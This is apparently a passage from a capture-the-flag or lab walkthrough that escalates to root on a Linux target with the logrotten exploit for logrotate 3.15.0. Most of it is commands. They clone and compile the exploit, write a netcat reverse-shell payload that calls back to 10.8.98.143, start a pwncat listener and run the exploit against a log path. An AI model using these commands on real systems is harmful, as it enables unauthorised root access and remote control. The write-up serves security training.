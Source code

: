 ```bash
logrotate --version

logrotate 3.15.0
```
Yeah is vulnerable to logrotten, we can exploit it with the following command:
```bash
git clone https://github.com/whotwagner/logrotten.git #in the host machine
cd logrotten

echo -e '#!/bin/bash\n busybox nc 10.8.98.143 8889 -e bash' > payload.sh
chmod +x payload.sh

gcc logrotten.c -o logrotten -static
```
listener:
```bash
python3 -m pwncat -lp 8889
```
We pass the payload.sh and logrotten in a word writable folder on the target machine and we run the following command:
```bash
./logrotten -p payload.sh /home/plot_admin/.logs_backup/moodle_access
```
we have our callback and we're root.